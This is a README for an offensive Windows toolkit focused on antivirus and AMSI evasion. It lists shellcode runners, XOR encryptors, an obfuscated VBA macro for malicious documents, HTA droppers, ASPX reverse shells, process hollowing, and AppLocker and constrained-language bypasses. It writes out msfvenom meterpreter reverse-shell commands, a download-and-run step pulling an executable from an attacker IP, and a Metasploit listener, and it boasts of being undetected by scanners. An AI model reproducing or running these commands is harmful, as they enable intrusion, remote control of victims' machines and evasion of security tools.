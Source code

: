 ## TOOLS:
* Platform.sln => platform.exe
```
PE with bypasses - use with x86/shikata_ga_nai | x64/zutto_dekiru encoder + XOREncrypt.sln
```
* XOREncrypt.sln => XOREncrypt.exe 
```
A second layer shellcode XOR encoer.
```
* holcrimson.sln => holcrimson.dll
```
Unamanged DLL for in memory loading - use with x86/shikata_ga_nai | x64/zutto_dekiru encoder + XOREncrypt.sln
```
* Doc1.doc - example Doc1.doc from medium article.
* VBA_XORencrypt.ps1 - Powershell script for encrypting 4 parts of VBA macro.
* Platform.txt - PS script
```
1. AMSI bypass
2. Download DLL
3. Load DLL to memory.
4. Run DLL.
```
* macro.vba - for Doc1.doc
```
Obfuscated VBA macro for docm / doc attack.
```
* platform.aspx - for IIS webserver attack
```
Use with msfvenom encrypted generated shellcode + XOREncrypt.sln
```
* platform.hta - dropper.
```
Use with obfuscated PE ShellCode Runner
Download to disk and run - this is undetected.
```
* isma.txt - use "-arg=1".split for arguemnts parsing.
```
1. AMSI bypass
2. Download PE
3. Load PE to memory.
4. Run PE.
```
* HOLLOW.sln => HOLLOW.exe - Process Hollower.
```
1. Generate encrypted shellcode
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=$ip LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key w -o shell.cs
2. Place inside and compile it.
```
* ConfuserEX.zip - for .NET PE obfuscation.
* Hyperion.zip - Crypter for PE obfuscation.
```
hyperion.exe input.exe output.exe
```
* [Pezor](https://github.com/Karmaz95/PEzor)
```
bash PEzor.sh -sgn -unhook -antidebug -text -syscalls -sleep=10 evil.exe -z 2
```
* bypass-clm.exe - [CLM Bypass](https://github.com/Karmaz95/bypass-clm) => spawn PowerShell in current terminal.
* clm_enc.txt - Same as bypass-clm.exe but base64 encoded with certutil and you can pass b64 encoded commands:
```
certutil -decode clm_enc.txt clm.exe
# Example of b64 below checks if the PowerShell run in FullLanguage
clm.exe "JABFAHgAZQBjAHUAdABpAG8AbgBDAG8AbgB0AGUAeAB0AC4AUwBlAHMAcwBpAG8AbgBTAHQAYQB0AGUALgBMAGEAbgBnAHUAYQBnAGUATQBvAGQAZQA="
```
* install_shellcode.cs - [APPLOCKER BYPASS](https://github.com/Karmaz95/install_shellcode.cs) => InstallUtil Shellcode Runner
```
msfvenom -p windows/meterpreter/reverse_http LHOST=tun0 LPORT=443 -f csharp -o shell.cs
C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe  /unsafe /platform:x86 /out:install_shellcode.exe .\install_shellcode.cs
iwr -uri 'http://$ip/install_shellcode.exe' -outfile C:/asd/install_shellcode.exe;
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U install_shellcode.exe
```

* shell.aspx - simple reverse shell for .aspx upload.
```
sudo msfconsole -x "use multi/handler; set LHOST tun0;set LPORT 443; exploit -j;"
```

## SCORE 
<p align="center">
  <img src="antiscanme.png" />
</p>
